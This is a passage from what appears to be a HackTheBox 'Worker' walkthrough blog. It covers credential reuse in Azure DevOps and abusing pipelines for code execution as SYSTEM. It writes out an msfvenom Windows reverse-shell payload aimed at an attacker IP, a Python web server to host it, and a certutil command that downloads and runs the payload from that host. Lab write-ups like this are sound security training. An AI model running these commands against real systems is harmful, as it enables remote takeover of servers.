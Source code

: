 After some time spent enumerating I got back to Azure Devops and tried the new credentials in there (robisl's account).  
Success!

### Back to Azure Devops

By using robisl's credentials we now have access to a different project in Azure DevOps. 
![robi's account in Azure DevOps]({{site.baseurl}}/assets/img/HTB/worker/azure_dev_robi.png){: .center-image}

The project did not contain any useful information for us at this stage (ex: new credentials, other apps running on the server, etc)

However, after remembering that the previous user (nathen) could not access the pipelines, I tried that again with the new one.  
And ....

### Pipelines! (and a small PoC)

![Pipeline menu]({{site.baseurl}}/assets/img/HTB/worker/starter_pipeline.png){: .center-image}

We can now access pipelines. This allows us to run code on the server.  
First, we want to do a PoC and check what user is used for running this code.  
To do that, we use the Starter Pipeline that can be seen above and we leave only the first "script" entry in there. We change the script to 'whoami' and then Save & Run our pipeline.

![Pipeline PoC]({{site.baseurl}}/assets/img/HTB/worker/poc_system_rce.png){: .center-image}

When execution reaches that step, we can see that our script was ran and we have its output.  
In this case we are lucky: this runs as SYSTEM and so this should be our last step in obtaining the root flag.

### Many failed attempts to obtain a shell

After the initial success in getting some code to be executed as SYSTEM, I tried to obtain a reverse shell using the same method.  
First, I generated a reverse shell by using msfvenom and hosted it on a web server.

{%highlight bash%}
msfvenom -p windows/shell/reverse_tcp lhost=10.10.14.113 lport=1234 -f exe > test.exe
python3 -m http.server 8888
{%endhighlight%}

![Preparing the reverse shell]({{site.baseurl}}/assets/img/HTB/worker/reverse_shell_exe.png){: .center-image}

Then, I added a new pipeline that would download the reverse shell executable from my server and then run it.  
For the download, I used certutil instead of cURL this time.
{%highlight powershell%}
certutil.exe -urlcache -split -f http://10.10.14.113/test.exe & test.exe
{%endhighlight%}

![Reverse shell pipeline]({{site.baseurl}}/assets/img/HTB/worker/preparing_root_shell.png){: .center-image}
